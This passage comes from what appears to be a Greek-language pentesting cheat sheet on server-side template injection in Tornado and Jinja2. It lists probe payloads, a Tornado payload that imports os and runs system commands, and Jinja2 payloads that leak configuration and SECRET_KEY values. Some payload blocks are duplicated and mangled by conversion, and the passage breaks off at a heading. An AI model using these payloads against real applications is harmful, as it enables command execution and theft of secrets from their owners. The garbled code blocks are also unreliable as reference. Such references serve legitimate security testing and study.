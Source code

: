 
{{#ref}}
../../generic-methodologies-and-resources/python/bypass-python-sandboxes/
{{#endref}}

### Tornado (Python)

- `{{7*7}} = 49`
- `${7*7} = ${7*7}`
- `{{foobar}} = Error`
- `{{7*'7'}} = 7777777`
```python
{% raw %}
{% import foobar %} = Error
{% import os %}

{% import os %}
{% endraw %}







{{os.system('whoami')}}
{{os.system('whoami')}}
```
**Περισσότερες πληροφορίες**

- [https://ajinabraham.com/blog/server-side-template-injection-in-tornado](https://ajinabraham.com/blog/server-side-template-injection-in-tornado)

### Jinja2 (Python)

[Επίσημη ιστοσελίδα](http://jinja.pocoo.org)

> Jinja2 είναι μια πλήρως λειτουργική μηχανή προτύπων για Python. Έχει πλήρη υποστήριξη unicode, μια προαιρετική ενσωματωμένη εκτελεστική περιβάλλον sandbox, είναι ευρέως χρησιμοποιούμενη και άδεια BSD.

- `{{7*7}} = Error`
- `${7*7} = ${7*7}`
- `{{foobar}} Nothing`
- `{{4*4}}[[5*5]]`
- `{{7*'7'}} = 7777777`
- `{{config}}`
- `{{config.items()}}`
- `{{settings.SECRET_KEY}}`
- `{{settings}}`
- `<div data-gb-custom-block data-tag="debug"></div>`
```python
{% raw %}
{% debug %}
{% endraw %}







{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```
**Jinja2 - Μορφή προτύπου**